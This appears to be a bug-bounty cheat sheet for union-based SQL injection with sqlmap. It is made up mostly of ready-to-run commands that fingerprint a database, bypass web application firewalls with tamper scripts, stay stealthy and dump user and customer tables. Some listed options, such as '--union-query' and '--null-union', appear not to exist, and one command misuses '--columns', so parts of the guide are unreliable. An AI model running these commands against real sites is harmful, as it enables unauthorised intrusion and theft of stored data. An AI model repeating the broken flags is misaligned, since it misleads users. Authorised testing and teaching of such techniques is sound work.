 # Union-Based SQL Injection Attacks with SQLMap

## Understanding Union-Based SQLi

Union-based SQL injection is a technique that leverages the SQL `UNION` operator to combine results from the original query with results from injected SQL statements. This allows attackers to extract data from other tables/databases.

## Basic Union-Based Attack with SQLMap

### 1. Identify Vulnerable Parameter
```
sqlmap -u "http://example.com/page.php?id=1" --batch --random-agent
```

### 2. Confirm Union-Based Vulnerability
```
sqlmap -u "http://example.com/page.php?id=1" --technique=U --banner
```
- `--technique=U` forces union-based technique
- `--banner` retrieves DBMS banner to confirm working injection

### 3. Determine Number of Columns
automatically:
```sh
sqlmap -u "http://example.com/page?category=1" --technique=U --columns
```

SQLMap does this automatically, but you can manually specify:
```sh
sqlmap -u "http://example.com/page.php?id=1" --technique=U --union-cols=5 --columns
```

### 4. Find Displayable Columns
```
sqlmap -u "http://example.com/page.php?id=1" --union-char=123 --dbs
```
- `--union-char` specifies the value to use in union queries

## Advanced Union-Based Techniques

### Extracting Specific Data
```
sqlmap -u "http://example.com/page.php?id=1" --union-from=users -D database_name -T users --dump
```

### Using Union with WAF Bypass
```
sqlmap -u "http://example.com/page.php?id=1" --technique=U --tamper=space2comment,randomcase --hex
```

### Custom Union Query
```
sqlmap -u "http://example.com/page.php?id=1" --union-query="SELECT 1,username,password FROM users"
```

## Important Flags for Union Attacks

- `--union-cols`: Specify number of columns
- `--union-char`: Character to use in UNION queries
- `--union-from`: Table to use in FROM part of UNION query
- `--null-union`: Use NULL in UNION queries
- `--hex`: Use hex conversion for data retrieval

## Bug Bounty Tips for Union-Based Attacks

1. **Test all parameters** - Not just numeric IDs, but also string parameters
2. **Check for second-order injection** - Test forms that store data
3. **Combine techniques** - Use union with boolean-based for better results
4. **Be stealthy** - Use delays and random agents
5. **Document thoroughly** - Capture all steps for your report

## Example Workflow

1. Initial detection:
```
sqlmap -u "http://example.com/product?id=1" --technique=U --banner
```

2. Enumerate databases:
```
sqlmap -u "http://example.com/product?id=1" --technique=U --dbs
```

3. Target specific database:
```
sqlmap -u "http://example.com/product?id=1" --technique=U -D customer_db --tables
```

4. Dump sensitive data:
```
sqlmap -u "http://example.com/product?id=1" --technique=U -D customer_db -T users --dump
```

Remember to always test ethically and only on authorized targets!